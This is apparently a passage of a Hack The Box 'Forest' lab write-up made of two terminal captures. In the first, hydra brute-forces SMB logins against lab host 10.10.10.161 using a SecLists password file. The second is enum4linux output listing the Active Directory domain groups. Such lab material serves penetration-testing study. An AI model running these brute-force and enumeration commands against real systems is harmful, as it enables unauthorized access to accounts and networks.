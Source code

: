 
```
cat /usr/share/seclists/Passwords/xato-net-10-million-passwords-10.txt >> passwords.txt

kali@kali:~/htb/boxes/forest/10.10.10.161$ hydra -L users.txt -P passwords.txt smb2://10.10.10.161
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-14 17:17:22
[WARNING] Workgroup was not specified, using "WORKGROUP"
[DATA] max 16 tasks per 1 server, overall 16 tasks, 768 login tries (l:16/p:48), ~48 tries per task
[DATA] attacking smb2://10.10.10.161:445/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-14 17:18:19

```

```
enum4linux

[+] Getting domain groups:                                   
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]  
group:[Domain Admins] rid:[0x200]                            
group:[Domain Users] rid:[0x201]                             
group:[Domain Guests] rid:[0x202]                            
group:[Domain Computers] rid:[0x203]                         
group:[Domain Controllers] rid:[0x204]                       
group:[Schema Admins] rid:[0x206]                            
group:[Enterprise Admins] rid:[0x207]                        
group:[Group Policy Creator Owners] rid:[0x208]              
group:[Read-only Domain Controllers] rid:[0x209]             
group:[Cloneable Domain Controllers] rid:[0x20a]             
group:[Protected Users] rid:[0x20d]                          
group:[Key Admins] rid:[0x20e]                               
group:[Enterprise Key Admins] rid:[0x20f]                    
group:[DnsUpdateProxy] rid:[0x44e]                           
group:[Organization Management] rid:[0x450]                  
group:[Recipient Management] rid:[0x451]                     
group:[View-Only Organization Management] rid:[0x452]        
group:[Public Folder Management] rid:[0x453]                 
group:[UM Management] rid:[0x454]                            
group:[Help Desk] rid:[0x455]                                
group:[Records Management] rid:[0x456]                       
group:[Discovery Management] rid:[0x457]                     
group:[Server Management] rid:[0x458]                        
group:[Delegated Setup] rid:[0x459]                          
group:[Hygiene Management] rid:[0x45a]                       
group:[Compliance Management] rid:[0x45b]                    
group:[Security Reader] rid:[0x45c]                          
group:[Security Administrator] rid:[0x45d]                   
group:[Exchange Servers] rid:[0x45e]                         
group:[Exchange Trusted Subsystem] rid:[0x45f]               
group:[Managed Availability Servers] rid:[0x460]             
group:[Exchange Windows Permissions] rid:[0x461]             
group:[ExchangeLegacyInterop] rid:[0x462]                    
group:[$D31000-NSEL5BRJ63V7] rid:[0x46d]                     
group:[Service Accounts] rid:[0x47c]                         
group:[Privileged IT Accounts] rid:[0x47d]                   
group:[test] rid:[0x13ed]
```
